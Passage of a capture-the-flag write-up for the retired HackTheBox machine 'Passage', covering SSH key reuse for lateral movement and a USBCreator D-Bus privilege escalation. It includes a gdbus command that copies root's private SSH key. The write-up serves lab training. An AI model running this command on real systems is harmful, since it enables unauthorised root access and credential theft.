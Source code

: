 ```bash
paul@passage:~/.ssh$ cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzXiscFGV3l9T2gvXOkh9w+BpPnhFv5AOPagArgzWDk9uUq7/4v4kuzso/lAvQIg2gYaEHlDdpqd9gCYA7tg76N5RLbroGqA6Po91Q69PQadLsziJnYumbhClgPLGuBj06YKDktI3bo/H3jxYTXY3kfIUKo3WFnoVZiTmvKLDkAlO/+S2tYQa7wMleSR01pP4VExxPW4xDfbLnnp9zOUVBpdCMHl8lRdgogOQuEadRNRwCdIkmMEY5efV3YsYcwBwc6h/ZB4u8xPyH3yFlBNR7JADkn7ZFnrdvTh3OY+kLEr6FuiSyOEWhcPybkM5hxdL9ge9bWreSfNC1122qq49d nadav@passage
```

This makes me wonder if I could ssh into nadav with paul's private key.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Passage]
└──╼ $ssh -i id_rsa nadav@passage.htb
Last login: Mon Jan 30 16:56:09 2023 from 10.10.14.10
nadav@passage:~$ 
```

<h1>Root</h1>

<h2>.viminfo</h2>

Typically these types of history files such as **.bash_history** and **.viminfo** are disabled on HackTheBox machines, and it's presence likely implies my priv esc path lies inside. The end of the file reads: 

```nano
# History of marks within files (newest to oldest):

> /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
	"	12	7

> /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
	"	2	0
	.	2	0
	+	2	0
```

<h2>USBCreator</h2>

Performing a highly complex search of _**USBCreator priv esc**_ I came across [this d bus privilege escalation through USBCreator](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/). In short, there is a system bus from D-Bus which runs privileged services, USBCreator is one of those services that allows unprivileged user input, making this priv esc possible. You don't need to understand the underlying D-Bus functions for the exploit to work properly, though the link for the priv esc goes quite in depth on this topic and I would recommend a read. 



```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/id_rsa true
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Passage]
└──╼ $ssh root@passage.htb -i root_key 
Last login: Mon Aug 31 15:14:22 2020 from 127.0.0.1
root@passage:~# cat root.txt 
5a79aa-----------------
```


